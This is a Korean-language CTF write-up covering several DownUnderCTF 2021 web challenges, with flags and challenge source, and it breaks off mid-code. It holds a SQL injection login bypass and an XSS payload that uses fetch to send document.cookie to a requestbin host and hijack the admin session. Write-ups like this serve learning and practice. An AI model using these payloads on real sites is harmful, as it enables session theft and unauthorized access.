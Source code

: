 그래서 정보 수집을 하기 위해서 `/robots.txt`로 접속을 해보니 메일 파일이 있었고, 메일 내용으로 위와 같이 있었습니다. 그래서 그냥 username으로 `sadcowboy`를 넘겨주고 password 값으로 `'or 1=1 --` 해주니 해결 되었습니다.

```
DUCTF{haww_yeeee_downunderctf?}
```

---
# x1337 Sk1d R3p0rt3r [232 pts]

> x1337 Sk1d R3p0rt3r 문제는 구문 분석에 의한 XSS를 이용해서 플래그를 획득하는 문제 입니다. 귀찮아서 gist에 올린 거 그대도 올립니다.

```
poc-1. </script>
poc-2. <script>`
```

```
1. Go to https://web-x1337-sk1d-r3p0rt3r-9cfd1dc4.chal-2021.duc.tf/.
2. login after register your personal account.
3. Edit the username to poc-1 and report to any value.
4. Edit the username to poc-2 and report to "`;fetch(`http://requestbin/?c=`+document.cookie)//".
5. Finally, edit the username to poc-1 and report to any value.
6. Then we can successfully hijack the admin session
```
![](https://user-images.githubusercontent.com/49112423/134772882-3cfe5698-ea5f-46ec-b48c-28d1e2668f00.png)

```
DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}
```

---
# Notepad [473 pts]

> Notepad 문제는 CSRF + XSS를 체이닝 해서 플래그를 획득하는 문제 입니다. 개인적으로 매우 쉬웠는데 솔브가 왜 적은 지 이해가 안 됨.

소스 코드가 제공 됨으로 플래그 획득 조건을 확인 해보겠습니다.

```python
@app.route('/admin')
async def admin():
    if quart.session.get('admin') != 1:
        return "", 403
    return open('flag.txt').read()

@app.route('/report', methods=["GET", "POST"])
@quart_rate_limiter.rate_limit(5, dt.timedelta(seconds=10))
async def report():
    user = quart.session.get('user')
    if not user:
        return quart.redirect(quart.url_for('index'))
    if quart.session.get('admin') == 1:
        # Just in case anyone tries it
        return "You're the admin... Go fix it yourself", 418

    if quart.request.method == 'POST':
        form = await quart.request.form
        url = form.get('url')
        if url:
            __stub_get_url(url)
            return quart.redirect(quart.url_for('me'))

    return await quart.render_template('report.html')

@app.route('/__stub/admin/login')
async def __stub_admin_login():
```